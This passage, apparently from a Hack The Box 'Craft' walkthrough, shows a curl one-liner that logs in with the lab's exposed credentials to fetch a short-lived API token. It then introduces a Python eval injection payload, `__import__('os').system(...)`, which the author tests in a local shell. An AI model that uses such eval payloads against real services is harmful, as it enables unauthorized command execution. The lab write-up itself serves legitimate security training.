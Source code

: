 

One other thing I noticed: after a few minutes, my requests would go
back to `Invalid token or no token found.`. That's because in
[auth.py](https://gogs.craft.htb/Craft/craft-api/src/master/craft_api/api/auth/endpoints/auth.py)
the jwt is set to be valid for 5 minutes:



    token = jwt.encode({'user': auth.username, 'exp' : datetime.datetime.utcnow() + datetime.timedelta(minutes=5)}, secret)



To get around this, I just had bash get me a token every time I wanted
to run a command. I can get and save a token like this:



    root@kali# TOKEN=$(curl -s -k -X GET "https://dinesh:4aUh0A8PbVJxgd@api.craft.htb/api/auth/login" -H  "accept: application/json" | jq -r '.token'); echo $TOKEN
    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTYzMTczMjE3fQ.ssgEpcD1ny20yHo_aiOaypm0Th1Eqk97ap1yIDRvBTk



So now I can just replace `echo $TOKEN` with the next `curl` command I
want to run:



    root@kali# TOKEN=$(curl -s -k -X GET "https://dinesh:4aUh0A8PbVJxgd@api.craft.htb/api/auth/login" -H  "accept: application/json" | jq -r '.token'); \
    > curl "https://api.craft.htb/api/auth/check" -H  "accept: application/json" -k -H "X-CRAFT-API-TOKEN: $TOKEN"
    {"message":"Token is valid!"}



### Abusing Python eval Statements

The `eval` statement in `python` let's one run a string as python. [This
post](https://www.floyd.ch/?p=584) has a pretty good detailed write up
on it, though it goes into way more difficult cases than this one. From
that post, I'll grab the following:



    __import__('os').system('echo hello, I am a command execution')



I'll test that in a `python` shell:



    root@kali# python3
    Python 3.7.3 (default, Apr  3 2019, 05:39:12) 
    [GCC 8.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> s = "__import__('os').system('echo hello, I am a command execution')"
    >>> eval(s)
    hello, I am a command execution
    0
